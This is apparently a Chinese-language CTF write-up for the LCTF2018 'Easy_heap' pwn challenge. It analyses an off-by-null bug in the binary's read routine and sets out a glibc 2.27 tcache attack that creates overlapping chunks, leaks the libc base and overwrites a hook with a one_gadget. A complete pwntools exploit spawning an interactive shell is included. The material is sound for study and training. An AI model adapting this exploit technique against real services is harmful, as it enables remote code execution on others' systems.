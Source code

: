 ```yaml
---
title: 'LCTF2018:Easy_heap'
date: 2018-11-20 19:02:38
tags: pwn tcache
layout: post
---
```

About tcache & null byte off 
<!--more-->
# Analysis
[附件][1]
tcache 了解的太少...
做了好久...现在看起来也挺简单的...可能最近太浮躁没法静下来思考...

主要功能是add,show,和delet

用的是libc2.27有tcache

# 漏洞
```arm
v4 = __readfsqword(0x28u);
  i = 0;
  if ( size )
  {
    while ( 1 )
    {
      read(0, &ptr[i], 1uLL);
      if ( size - 1 < i || !ptr[i] || ptr[i] == 10 )
        break;
      ++i;
    }
    ptr[i] = 0;
    ptr[size] = 0;
  }
  else
  {
    *ptr = 0;
  }
  return __readfsqword(0x28u) ^ v4;
```
其他地方看不出啥洞...这里有个很明显的ptr[size] = 0;
null byte off
但是这题又很刻薄。。。
* malloc定长malloc(0xF8uLL)
* read时遇到0x00或者0x0a会停止...
//以上两点导致无法自己留pre_size
//每个chunk都是0x100导致只能off_by_one只能改pre_inuse位

然后是思路
* 利用null_byte_off 改pre_inuse 那么主要有两个问题-->
```arm
1.per_size
2.unlink 的assert
```
* 第一个问题解决方案:填满tcache 然后利用chunk的合并留下pre_size
```
例如已经填满tcache之后
只要再次free三个chunk那么就会留下0x100在第一个chunk尾部，0x200在第二个chunk尾部....
这样我们就有了per_size
```
* 第二个问题的解决办法:
```sh
仅有A在unsorted bin
null byte off 掉C
free C 
```

* 所以总的思路：
```sh
#partI set pre_size
malloc 10个chunk
free 掉7个 填充tcache
依次free掉剩下三个合并成一个0x300的unsorted bin
malloc 10个chunk
#partI over


#partII Fengshui
#方便起见我们程那三个有pre_size的chunk为ABC 
free B 进tcache 保护起来
free 6个chunk填满tcache
free A 进unsorted bin
malloc 6 个chunk
malloc B  做null byte off
free c
# 成功over lap

# part III Tcache atk  
泄露
hijack hook
```

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("and?\n> ",str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("size \n> ",str(size))
	p.sendafter("tent \n> ",data)
def show(idx):
	cmd(3)
	p.sendlineafter("dex \n> ",str(idx))
def free(idx):
	cmd(2)
	p.sendlineafter("dex \n> ",str(idx))
#p=process("./easy_heap")
p=remote("10.21.13.100",10003)
#context.log_level='debug'
for x in range(10):
	add(0xf7,'\n')
for x in range(7):
	free(9-x)

free(0)
free(1)
free(2)
#set the presize
for x in range(7):
	add(0xf7,'\n')

add(0x10,'\n')#7
add(0x10,'\n')#8
add(0xf7,'\n')#9
# keep the presize and begin to free
free(8)# protec 
for x in range(6):
	free(x)
#fill tcache
free(7)#into tcache
for x in range(6):
	add(0x10,'\n')
add(0xf8,'\n')#7
for x in range(7):
	free(x)
free(9)
####over laped
for x in range(7):
	add(0x2,'\n')
add(0x2,'\n')#8
show(7)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x7ffff79e4000)
log.warning(hex(base))
add(0x20,'\n')#9
free(1)
free(2)
free(7)
free(0)
free(9)
add(0x10,p64(0x7ffff7dcfc30-0x7ffff79e4000+base))#0
add(0x10,'\n')#1
add(0x10,'\n')#2
one=base+0x10a38c
add(0x10,p64(one))
p.sendlineafter(">",'1')
p.sendline("clear")
#gdb.attach(p)
p.interactive("nier>>>>")
```

# Review 
仔细想想思路挺顺的一题....最近太浮躁了...修身养性修身养性


[1]:https://github.com/n132/Watermalon/tree/master/LCTF_2018/easy_heap
